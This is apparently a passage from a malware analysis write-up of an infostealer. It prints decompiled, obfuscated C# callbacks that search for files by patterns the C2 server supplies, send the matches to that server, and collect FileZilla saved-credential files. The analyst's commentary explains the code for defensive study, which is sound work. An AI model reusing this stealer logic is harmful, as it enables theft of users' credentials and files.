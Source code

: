 All this data will be of course sent to the C2 server.

#### Callback 16
```csharp
public static void вашу0л34(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
  bool id = settings.Id2;
  if (id)
  {
      Entity13 entity = connection.Id22(FileSearcher.Search(settings.Id10));
      bool flag = entity == Entity13.Id3;
      if (flag)
      {
          PartsSender.вашу0л34(connection, settings, ref result);
      }
      bool flag2 = entity == Entity13.Id4;
      if (flag2)
      {
          throw new InvalidOperationException();
      }
  }
```
This callback is basically doing the same thing as Callback14. But instead of scanning hardcoded patterns like Telegram.exe, the server can provide new patterns that will be scanned through this callback.

#### Callback 17
```csharp
public static void навева(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
    bool id = settings.Id3;
    if (id)
    {
        Entity13 entity = connection.Id12(Entity19.Id1());
        bool flag = entity == Entity13.Id3;
        if (flag)
        {
            PartsSender.навева(connection, settings, ref result);
        }
        bool flag2 = entity == Entity13.Id4;
        if (flag2)
        {
            throw new InvalidOperationException();
        }
```
<img width="398" height="221" alt="image" src="https://github.com/user-attachments/assets/0115b4da-bae3-4a89-b295-b2f7eed49157" />

<img width="385" height="184" alt="image" src="https://github.com/user-attachments/assets/465832f3-2233-41f3-84c1-9300978c21a8" />

After manually removing “Handle” from the strings and converting from Base64 to UTF8, we can see that the function is retrieving:
- {0}\FileZilla\recentservers.xml ⇒ C:\Users\<username>\AppData\Roaming\FileZilla\recentservers.xml
- {0}\FileZilla\sitemanager.xml ⇒ C:\Users\<username>\AppData\Roaming\FileZilla\sitemanager.xml
